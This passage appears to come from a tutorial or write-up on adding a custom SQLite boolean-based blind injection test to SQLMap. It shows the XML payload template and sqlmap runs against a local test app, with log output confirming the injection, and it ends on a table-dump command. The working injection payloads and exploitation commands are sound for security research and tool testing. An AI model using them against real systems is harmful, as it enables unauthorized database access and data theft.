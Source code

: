```xml
        <comparison>AND CASE WHEN [RANDNUM]=[RANDNUM1] THEN 1 ELSE json('') END</comparison>
    </response>
    <details>
        <dbms>SQLite</dbms>
    </details>
</test>
```

If we run SQLMap it should find the injection:

```bash
> python sqlmap.py -u http://127.0.0.1:5000/submitmessage --data 'message=a' -p 'message' --dbms=sqlite

[...]

[13:18:56] [INFO] testing connection to the target URL
[13:18:56] [INFO] testing if the target URL content is stable
[13:18:56] [INFO] target URL content is stable
[13:18:56] [WARNING] heuristic (basic) test shows that POST parameter 'message' might not be injectable
[13:18:56] [INFO] testing for SQL injection on POST parameter 'message'
[13:18:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:18:56] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:18:56] [INFO] testing 'Generic inline queries'
[13:18:56] [INFO] testing 'SQLite boolean-based blind'
[13:18:57] [INFO] POST parameter 'message' appears to be 'SQLite boolean-based blind' injectable 
for the remaining tests, do you want to include all tests for 'SQLite' extending provided level (1) and risk (1) values? [Y/n] n
[13:19:02] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:19:02] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:19:02] [INFO] checking if the injection point on POST parameter 'message' is a false positive
POST parameter 'message' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: message (POST)
    Type: boolean-based blind
    Title: SQLite boolean-based blind
    Payload: message=a' AND CASE WHEN 6418=6418 THEN 1 ELSE json('') END AND 'EDIB'='EDIB
```


As the new payload with the function `json` is shorter than my initial `load_extension` method, the length check in `app.py` can be put back and it still works.


Dump the tables:

```bash
> python sqlmap.py -u http://127.0.0.1:5000/submitmessage --data 'message=a' -p 'message' --dbms=sqlite --tables

[...]

sqlmap resumed the following injection point(s) from stored session:
---                                                   
Parameter: message (POST)                                                                                              
    Type: boolean-based blind
    Title: SQLite boolean-based blind
    Payload: message=a' AND CASE WHEN 6418=6418 THEN 1 ELSE json('') END AND 'EDIB'='EDIB
---                                  
[13:20:44] [INFO] testing SQLite                                                                                       
[13:20:44] [INFO] confirming SQLite
[13:20:44] [INFO] actively fingerprinting SQLite
```